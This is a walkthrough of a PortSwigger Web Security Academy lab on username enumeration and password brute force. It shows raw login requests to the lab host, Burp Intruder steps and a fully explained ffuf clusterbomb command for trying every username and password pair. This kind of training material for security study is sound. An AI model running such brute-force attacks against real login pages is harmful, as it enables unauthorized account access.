








# Username enumeration via different responses

```
❓

This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

Candidate [`usernames`](https://portswigger.net/web-security/authentication/auth-lab-usernames) Candidate [`passwords`](https://portswigger.net/web-security/authentication/auth-lab-passwords) 

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.
```

In this lab we are tasked with identifying which user from the usernames list can be logged into by matching that username with a password from the password list. To get started I start off by inputting a test login.

# Identifying The User

```shell
POST /login HTTP/2
Host: 0ab0003404084766c3006b3b00a7000f.web-security-academy.net
Cookie: session=nWL3KAlSsZFdLnWVpwkbBBCig5a8DA8v
Content-Length: 29
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://0ab0003404084766c3006b3b00a7000f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab0003404084766c3006b3b00a7000f.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

username=test&password=test
```



I am then given the message `Invalid username` (keep this in mind, it will be important later) from which, I proceed to send this request to Intruder in Burp Suite by right clicking and clicking `Send to Intruder`. Once you’re in the Intruder tab, highlight the username parameter value and select `Add payload position`.



Here is where we will load the usernames list (if you haven’t already copy and paste all of the usernames and passwords into their own respective files to be loaded).





After loading the usernames into the payload, make sure to have `Sniper attack` selected, then click Start attack. Keep in mind attack will take some time to complete, although we will not need the full attack to complete in this case.



Keeping an eye out for a change in the length of each request we come across one that is slightly larger than the others. This time we get an `Incorrect password` instead of `Invalid password` indicating that this could be a potential user. I then to take note of the user and proceed with repeating the same process for the password after changing the username parameter to the suspected user from this attack.



# Identifying The Password

Once we’ve changed the username and repeated the process for the password parameter, we get a 302 status code indicating that there was a redirect to another page with one of the passwords. Trying that username and password combination, we can confirm that was indeed the correct login.





# Alternative Method

[`ffuf`](https://github.com/ffuf/ffuf) is a web fuzzer that can also be used to solve this lab as well, here is the command that we’ll be using and a breakdown of what it does.

```bash
ffuf -request req.txt -request-proto https -mode clusterbomb -w <LAB_USERNAME_LIST.txt:FUZZUSER> -w <LAB_PASSWORD_LIST.txt:FUZZPASS>

```

---

### **1. ****`ffuf`**

- **Tool**: Stands for "Fuzz Faster U Fool."
- Used for fuzzing web applications by sending multiple crafted requests to a target URL or endpoint.

---

### **2. ****`request req.txt`**

- **Purpose**: Specifies a file (`req.txt`) containing the full HTTP request template to be used.
- The file includes details like the HTTP method (POST/GET), headers, cookies, and body, formatted as you would see in raw HTTP traffic.
- Example content of `req.txt`:
  ```txt
  POST /login HTTP/2
  Host: 0ab0003404084766c3006b3b00a7000f.web-security-academy.net
  Cookie: session=nWL3KAlSsZFdLnWVpwkbBBCig5a8DA8v
  Content-Length: 29
  Cache-Control: max-age=0
  Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
  Sec-Ch-Ua-Mobile: ?0
  Sec-Ch-Ua-Platform: "Linux"
  Accept-Language: en-US,en;q=0.9
  Origin: https://0ab0003404084766c3006b3b00a7000f.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
  Sec-Fetch-Site: same-origin
  Sec-Fetch-Mode: navigate
  Sec-Fetch-User: ?1
  Sec-Fetch-Dest: document
  Referer: https://0ab0003404084766c3006b3b00a7000f.web-security-academy.net/login
  Accept-Encoding: gzip, deflate, br
  Priority: u=0, i

  username=FUZZUSER&password=FUZZPASS
  ```

  - `FUZZUSER` and `FUZZPASS` are placeholders for the values being fuzzed (provided by the wordlists).

---

### **3. ****`request-proto https`**

- **Purpose**: Specifies the protocol to use for the request.
- In this case, `https` is used to ensure the requests are sent over a secure connection.

---

### **4. ****`mode clusterbomb`**

- **Purpose**: Sets the mode for combining the wordlists.
- **Clusterbomb Mode**:
  - Uses a **Cartesian product** of the wordlists, meaning every username in the first wordlist (`FUZZUSER`) is tested with every password in the second wordlist (`FUZZPASS`).
  - Example:
    - Wordlist 1 (`FUZZUSER`): `["admin", "user", "test"]`
    - Wordlist 2 (`FUZZPASS`): `["123", "password", "admin"]`
    - Generated combinations:
      ```txt
      admin:123
      admin:password
      admin:admin
      user:123
      user:password
      user:admin
      test:123
      test:password
      test:admin

      ```

---

### **5. ****`w <LAB_USERNAME_LIST.txt:FUZZUSER>`**

- **Purpose**: Specifies a wordlist (`LAB_USERNAME_LIST.txt`) to be used for fuzzing the `FUZZUSER` placeholder in the request.
- **Syntax**:
  - `<wordlist>:placeholder`
  - `LAB_USERNAME_LIST.txt`: A file containing potential usernames (one per line).
  - `FUZZUSER`: Placeholder in the `req.txt` request file that will be replaced with each entry from the wordlist.

---

### **6. ****`w <LAB_PASSWORD_LIST.txt:FUZZPASS>`**

- **Purpose**: Specifies a wordlist (`LAB_PASSWORD_LIST.txt`) to be used for fuzzing the `FUZZPASS` placeholder in the request.
- **Syntax**:
  - `<wordlist>:placeholder`
  - `LAB_PASSWORD_LIST.txt`: A file containing potential passwords (one per line).
  - `FUZZPASS`: Placeholder in the `req.txt` request file that will be replaced with each entry from the wordlist.

---

### **How It Works**

1. **Wordlist Replacement**:
   - The placeholders `FUZZUSER` and `FUZZPASS` in the `req.txt` file are dynamically replaced with entries from the respective wordlists.
2. **Combination of Inputs**:
   - In `clusterbomb` mode, every combination of usernames and passwords is tested, ensuring full coverage of the provided wordlists.
3. **Protocol**:
   - The requests are sent using the HTTPS protocol as specified by `request-proto https`.
4. **Automation**:
   - `ffuf` automates the process of testing each username-password pair, handling hundreds or thousands of combinations efficiently.

---

### **Example Use Case**

- You are testing a login endpoint to identify valid username-password combinations using:
  - `LAB_USERNAME_LIST.txt`: A list of potential usernames.
  - `LAB_PASSWORD_LIST.txt`: A list of potential passwords.
- `ffuf` will iterate through all possible combinations, replacing the placeholders in `req.txt` and sending the crafted requests.

---

### **Sample Output**

When executed, `ffuf` will provide a list of successful matches (e.g., 200 HTTP status code or different content length) that indicate valid credentials.

For example:

```txt
admin:password123       [Status: 200, Size: 567]
user:test123            [Status: 200, Size: 570]

```

These indicate valid username-password pairs.

---

### **Summary**

- **Purpose**: This command uses `ffuf` to brute-force username-password combinations for a login endpoint.
- **Key Features**:
  - Uses raw HTTP request templates (`req.txt`) for flexibility.
  - Tests all combinations of usernames and passwords using `clusterbomb` mode.
  - Automates the process, saving time during penetration testing.
